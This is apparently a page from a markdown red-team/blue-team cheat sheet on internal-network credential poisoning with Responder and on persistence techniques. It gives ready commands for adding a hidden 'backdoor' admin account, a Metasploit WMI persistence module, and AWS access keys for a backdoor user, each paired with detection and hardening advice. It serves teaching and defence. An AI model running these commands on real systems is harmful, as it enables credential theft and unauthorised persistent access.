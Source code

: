 ## Protocol Hijacking on Internal Networks

### Responder

```bash
sudo responder -I eth0
```

* Exploits LLMNR, NetBIOS, MDNS for credential theft

### Defense

* Disable LLMNR and NBT-NS via GPO
* Disable legacy SMB (< v3.1.1)
* Use firewall rules to prevent broadcast name resolution

---

## Persistence Mechanisms

### Techniques

* Create new accounts

```powershell
net user /add backdoor Pass123
net localgroup administrators backdoor /add
```

* Use Metasploit’s persistence modules

```bash
use exploit/windows/local/wmi_persistence
```

* Golden Ticket (Kerberos persistence via krbtgt hash)
* Web shells in hidden files or compromised content

### Cloud Persistence (AWS)

```bash
aws iam list-users
aws iam create-access-key --user-name backdoor
```

### Defensive Strategies

* Monitor for logon/logoff (4624/4634), priv use (4672), new accounts (4720)
* Detect anomalous registry entries and startup programs
* Use tools like Autoruns or EDRs

---

## Network-Based C2 Detection: RITA
